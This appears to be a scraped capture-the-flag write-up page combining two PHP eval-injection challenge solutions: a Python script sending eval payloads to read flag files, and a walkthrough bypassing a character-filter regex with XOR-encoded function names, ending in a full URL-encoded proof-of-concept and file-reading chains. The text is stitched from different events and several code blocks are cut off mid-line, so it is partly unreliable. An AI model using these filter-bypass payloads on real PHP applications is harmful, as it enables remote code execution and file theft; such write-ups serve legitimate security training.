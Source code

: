 [https://hxp.io/blog/74/0CTF-2020-writeups/#easyphp](https://hxp.io/blog/74/0CTF-2020-writeups/#easyphp)

Original writeup (https://hxp.io/blog/74/0CTF-2020-writeups/#easyphp).This was a php challenge where the website would just eval the code you
provided in the get request.  
At first I thought about using something like system or exec, but those
functions and others like shell_exec were disabled.  
We can verify that by executing ```phpinfo();``` and checking the functions
listed in ```disabled_function``` class.  
So running any clever system code or something like a shell was out of
question.  
Also look out for `open_basedir` in the php configuration you get from
`phpinfo();`. Luckily for us it was set to `/` so we could explore the file
system easily.

Using ` __DIR__ `, `scandir`, we can quickly check which subdirectory the
website is running. There was only `index.php` in `/var/www/html`.  
In the `/` directory, we will find `flag.so` and `flag.h` (along with
`.dockerenv` folder, `start.sh`) , catting out `flag.so` (you can use
`highlight_file`) will give the flag as it was hardcoded in the binary.

`FLAG : flag{FFi_1s_qu1T3_DANg1ouS}`

```python  
import requests  
url = "http://pwnable.org:19260"  
# payload = """echo $s = base64_encode(readfile("../../../flag.so"));"""  
# payload = """$f = scandir("/var/www/html");var_dump($f);"""  
# payload = """$f = highlight_file('/start.sh');var_dump($f);"""  
r = requests.Session()  
print(payload)  
print()  
s = r.get(url+"?rh="+payload)  
final = s.text  
print(final)  
r.close()  
```
## EasyPHP (871 points)

### Description  
Don't try to run any Linux command, just use all the PHP functions you know to
get the flag  
http://165.22.57.95:8000/

### First look  
Visiting given URL gives us a look at the source file:  
```php  
0xd )  
   die('you are so close, omg');

eval($_);  
?>  
```  
So there are two conditions we have to satisfy in order to eval our code.  
Analysis of `preg_match` condition let us determine all the characters and php
functions  
we can explicitly use without any encoding.

I made an assumption, that php configuration is default, so to have first
look-around  
I parsed result of `get_defined_functions()` php function using given regex
condition.  
This gives us following set of functions:

```  
bcmul  
rtrim  
trim  
ltrim  
chr  
link  
unlink  
tan  
atan  
atanh  
tanh  
intval  
mail  
min  
max  
```

At a first glance, functions `chr` and `intval` look promising - we could
possibly craft  
both characters and numbers. However, to do so, we need numbers to craft
strings from (as we cant use any string quotes)  
e.g: `chr(asciicode)`.

### Looking for a right path  
How can we generate numbers then? There comes PHP syntax and behaviour with
help!  
Basically in PHP strings have to be quoted using `"` or `'`.  
Although those characters are restricted by regex condition, PHP acts in
pretty weird way, if we don't quote string -  
it assumes we've simply forgotten to quote it, produces notice and creates
string anyway  
(only a-ZA-Z characters are valid in this case). Also, notice can be easily
suppressed using `@` which is permitted by regex.

How can we get number from string, though? In this case we can simply use
PHP's ~~amazing~~ type juggling:  
```php  
', '<', '?', '=', ':', '@', '^']`

Eventually I noticed something interesting in PHP documentation:  
https://www.php.net/manual/en/language.operators.bitwise.php  
> If both operands for the &, | and ^ operators are strings, then the operation will be performed on the ASCII values of the characters that make up the strings and the result will be a string. In all other cases, both operands will be converted to integers and the result will be an integer.

This is exactly what we need. `^` stands for bitwise XOR, and if applied on
strings, it XORs char by char.  
I have also tried out some XOR results, and it turned out, that it is possible
to create lowercase characters  
by XORing uppercase character with a number, for example:  
```php  
echo @ASD^"123"; //produces string 'paw'  
```  
We already know how to create string using only permitted characters, and also
how to create any number we want.  
If only number was string representation of integer, we could determine pairs
of `Uppercase letter ^ [0-9]` which XORED  
result in ANY functions names!

Next step is to create string representation for crafted number.  
Again, PHP type juggling arrives on a white horse yelling for attention:  
```php  
you are so close, omg

Of course, I've forgotten about second condition which counts unique
characters in our payload.  
My payload has 15 unique characters, while it accepts only <=13. Let's try to
reduce those characters.

Firstly, it's safe to remove all `@` characters, since it doesn't change
anything - just suppresses notices.  
Fine, this is one character less. Let's try to encode our string once more
with less unique characters.

To clarify how the script works and decisions here, this is sample output
which shows us possibilities of encoding:  
```  
p: |A ^ 1|B ^ 2|C ^ 3|H ^ 8|I ^ 9|  
h: |Q ^ 9|X ^ 0|Y ^ 1|Z ^ 2|  
p: |A ^ 1|B ^ 2|C ^ 3|H ^ 8|I ^ 9|  
i: |Q ^ 8|X ^ 1|Y ^ 0|Z ^ 3|  
n: |V ^ 8|W ^ 9|X ^ 6|Y ^ 7|Z ^ 4|  
f: |Q ^ 7|R ^ 4|T ^ 2|U ^ 3|V ^ 0|W ^ 1|  
o: |V ^ 9|W ^ 8|X ^ 7|Y ^ 6|Z ^ 5|  
```  
Those are possible pairs to encode given character. In order to minimise
unique characters, we should choose either:  
* characters which already exist in our payload (TRIM)  
* minimum number of characters with which we can encode all chars (re-use already chosen characters)

This way, we encode `phpinfo` as `AYAYYRY ^ 1110746`, and thus generate
payload with less than 14 unique chars:  
```  
(AYAYYRY^trim(((((!!i+!!i))**((!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i)))+(((!!i+!!i))**((!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i)))+(((!!i+!!i))**((!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i)))+(((!!i+!!i))**((!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i)))+(((!!i+!!i))**((!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i)))+(((!!i+!!i))**((!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i+!!i)))+(((!!i+!!i))**((!!i+!!i+!!i+!!i+!!i+!!i+!!i)))+(((!!i+!!i))**((!!i+!!i+!!i+!!i+!!i+!!i)))+(((!!i+!!i))**((!!i+!!i+!!i+!!i)))+(((!!i+!!i))**((!!i+!!i+!!i)))+(((!!i+!!i))**((!!i))))))();  
```

Aaaaaand, we get `phpinfo()` output!

POC:  
```  
http://165.22.57.95:8000/?_=(AYAYYRY^trim(((((!!i%2B!!i))**((!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i)))%2B(((!!i%2B!!i))**((!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i)))%2B(((!!i%2B!!i))**((!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i)))%2B(((!!i%2B!!i))**((!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i)))%2B(((!!i%2B!!i))**((!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i)))%2B(((!!i%2B!!i))**((!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i)))%2B(((!!i%2B!!i))**((!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i)))%2B(((!!i%2B!!i))**((!!i%2B!!i%2B!!i%2B!!i%2B!!i%2B!!i)))%2B(((!!i%2B!!i))**((!!i%2B!!i%2B!!i%2B!!i)))%2B(((!!i%2B!!i))**((!!i%2B!!i%2B!!i)))%2B(((!!i%2B!!i))**((!!i))))))();  
```  
Also, it's worth to mention, that the only char we have to urlencode is `+`
sign - if we urlencode all the characters,  
we might get `414 request-uri too large` for larger payloads.

### Looking for flag  
To be honest, I was sure I'm gonna already get the flag at this point.
Obviously I was wrong, so I continued research.  
The very first idea was to print content of current directory (which is often
place where flag is stored).

In order get dir contents, we have to encode few functions  
```  
scandir(string $dir) // returns array of $dir content  
getcwd()             // returns current dir path  
var_dump($var)       // outputs $var content of any type (may be array from
scandir)  
```  
So following string is needed:  
```php  
var_dump(scandir(getcwd()));  
```

Again, we encode our stuff, put it into GET parameter and...:  
```  
array(4) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(9)
"index.php" [3]=> string(34) "n0t_a_flAg_FiLe_dONT_rE4D_7hIs.txt" }  
```

No more words are needed, we simply encode:  
```  
var_dump(file_get_contents(end(scandir(getcwd()))));  
```  
and get the flag:  
```  
string(34) "ISITDTU{Your PHP skill is so good}"  
```  
